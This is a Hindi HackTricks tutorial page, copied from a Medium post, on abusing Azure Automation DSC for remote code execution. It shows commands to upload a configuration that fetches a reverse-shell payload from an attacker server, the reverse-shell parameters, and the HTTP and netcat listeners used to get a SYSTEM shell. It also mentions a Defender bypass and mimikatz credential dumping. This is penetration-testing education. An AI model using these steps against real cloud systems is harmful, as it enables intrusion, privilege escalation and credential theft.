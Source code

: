 # Az - स्टेट कॉन्फ़िगरेशन RCE

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

**यह पोस्ट यहाँ से कॉपी की गई है** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी <a href="#f0fa" id="f0fa"></a>

मैं "40.84.7.74" रिमोट सर्वर पर Nishang Invoke-PowerShellTcp.ps1 पेलोड का एक सरलीकृत संस्करण होस्ट करूँगा, जो कि Kali बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। Windows Defender द्वारा किसी भी कारण से Nishang स्क्रिप्ट को हटाए जाने से बचाने के लिए (शायद आप फाइल को डिस्क पर ड्रॉप करना पसंद करें) मैंने यहाँ एक हल्का संस्करण उपलब्ध कराया है जिसे आप उपयोग कर सकते हैं जो Defender को बायपास करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). यह Kali बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फाइल बनाने की आवश्यकता होगी। एक टेम्पलेट यहाँ से डाउनलोड किया जा सकता है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). यह कॉन्फ़िगरेशन फाइल उसी फाइल-राइट फंक्शन का उपयोग करेगी जिसे हमने पहले इस्तेमाल किया था। इस बार, सामग्री में हमारे रिमोट सर्वर से एक पेलोड डाउनलोड करने और निष्पादित करने के लिए कोड शामिल है। साथ ही, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध एक शेड्यूल्ड-टास्क फंक्शन का उपयोग कर रहे हैं। शेड्यूल्ड-टास्क फंक्शन निष्पादन में मुख्य भूमिका निभाएगा और बाद में हमें SYSTEM विशेषाधिकार प्रदान करेगा।

हम एक स्क्रिप्ट भी डाउनलोड करेंगे जिसका उपयोग हम VM पर हमारे कॉन्फ़िगरेशन को प्रकाशित करने के लिए करेंगे। यह यहाँ स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

ये फाइलें एक टेम्पलेट के रूप में काम करेंगी। **आपको चर नामों और पैरामीटर्स को भरने की आवश्यकता होगी जिनका आप उपयोग कर रहे हैं**। इसमें संसाधन नाम, फाइल पथ, और बाहरी सर्वर/पेलोड नाम शामिल हैं जिनका आप उपयोग कर रहे हैं। कृपया कोड में टिप्पणियों का संदर्भ लें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फाइलें बनाने के बाद, हम **‘reverse\_shell\_config.ps1’** फाइल को ज़िप करेंगे ताकि इसे स्टोरेज अकाउंट में भेजा जा सके
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### चरण 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने स्टोरेज अकाउंट का संदर्भ सेटअप करेंगे जो मैंने पहले ही कर लिया है। मेरे पास पहले से ही 'एज़्योर-पेंटेस्ट' नामक एक कंटेनर है, इसलिए मैं अपना प्रकाशन यहाँ करूँगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### चरण 4 — काली बॉक्स तैयार करें <a href="#20fb" id="20fb"></a>

हमारे काली बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। कच्ची रिवर्स-शेल स्क्रिप्ट यहाँ स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)।
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट में हमारे पैरामीटर्स को जोड़ने की आवश्यकता है, ताकि विंडोज VM को पता चले कि एक बार निष्पादित होने पर कहां कनेक्ट करना है। मेरे मामले में मैं निम्नलिखित जोड़ता हूँ:
```
RevPShell -Reverse 40.84.7.73 443
```
### चरण 5 — कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरी सेटअप डेस्कटॉप पर प्रकाशित होने के लिए है ताकि बेहतर दृश्य मिल सके, हालांकि इसे लगभग कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो चुकी है!

### चरण 6 — पेलोड होस्ट करें और लिसनर सेटअप करें <a href="#c55f" id="c55f"></a>

एक बार जब हम कॉन्फ़िगरेशन प्रकाशित कर देते हैं, हम समानांतर रूप से पेलोड को होस्ट करने के लिए पोर्ट 80 पर एक Python SimpleHTTPServer शुरू कर सकते हैं, साथ ही साथ एक netcat लिसनर भी सेटअप कर सकते हैं ताकि कनेक्शन को पकड़ सकें:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य चला और हमारा पेलोड प्राप्त होकर **SYSTEM** स्तर की विशेषाधिकारों के साथ मेमोरी में निष्पादित हुआ!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समापन <a href="#1ec2" id="1ec2"></a>

इससे अब कई संभावनाएं खुल गई हैं। चूंकि हमारे पास **SYSTEM** के रूप में चल रहा शेल है, हम mimikatz के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR की परिपक्वता के आधार पर जोखिम भरा हो सकता है)। यदि आप क्रेड्स डंप करते हैं, तो इन्हें विभिन्न संसाधनों में पुन: उपयोग करने की अच्छी संभावना है। अंत में, एक महत्वपूर्ण बात यह है कि इसे एक VM तक सीमित रखने के बजाय, आपके पास अब इस कॉन्फ़िगरेशन को कई VMs में लागू करने की क्षमता है।

इस नोट पर, हमारे Azure Automation DSC साहसिक कार्य का समापन होता है! मुझे आशा है कि आपने मज़ा किया, बहुत कुछ सीखा और अपनी सृजनात्मकता के साथ विस्तार करते रहेंगे।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
